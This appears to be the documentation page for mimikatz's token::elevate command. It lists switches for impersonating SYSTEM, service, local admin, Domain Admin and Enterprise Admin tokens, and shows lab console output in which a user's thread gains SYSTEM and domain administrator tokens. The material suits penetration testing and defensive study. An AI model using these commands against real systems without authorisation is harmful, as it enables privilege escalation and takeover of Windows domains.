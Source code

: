 # elevate

Impersonate a token. By default it will elevate permissions to `NT AUTHORITY\SYSTEM`. It has the following command line arguments:

* `/process`: Impersonate the token of the running process
* `/user`: Impersonate the token of the specified user
* `/admin`: Impersonate a token of builtin local administrators
* `/domainadmin`: Impersonate a token with Domain Admin privileges
* `/enterpriseadmin`: Impersonate a token with Enterprise Admin privileges
* `/localservice`: `NT AUTHORITY\LOCAL SERVICE` token impersonation
* `/networkservice`: `NT AUTHORITY\NETWORK SERVICE` token impersonation

```text
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

752     {0;000003e7} 0 D 44299          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Primary
 -> Impersonated !
 * Process Token : {0;002cfce0} 4 F 62374281    hacklab\m3g9tr0n        S-1-5-21-2725560159-1428537199-2260736313-1730  (13g,24p)       Primary
 * Thread Token  : {0;000003e7} 0 D 62721950    NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Impersonation (Delegation)
```

```text
mimikatz # token::elevate /domainadmin
Token Id  : 0
User name :
SID name  : hacklab\Domain Admins

4512    {0;0007212c} 2 D 476947         hacklab\Administrator   S-1-5-21-2725560159-1428537199-2260736313-500   (29g,26p)       Primary
 -> Impersonated !
 * Process Token : {0;080fd6c8} 3 F 137701065   hacklab\m3g9tr0n        S-1-5-21-2725560159-1428537199-2260736313-1730
(15g,26p)       Primary
 * Thread Token  : {0;0007212c} 2 D 137785083   hacklab\Administrator   S-1-5-21-2725560159-1428537199-2260736313-500
(29g,26p)       Impersonation (Delegation)
```

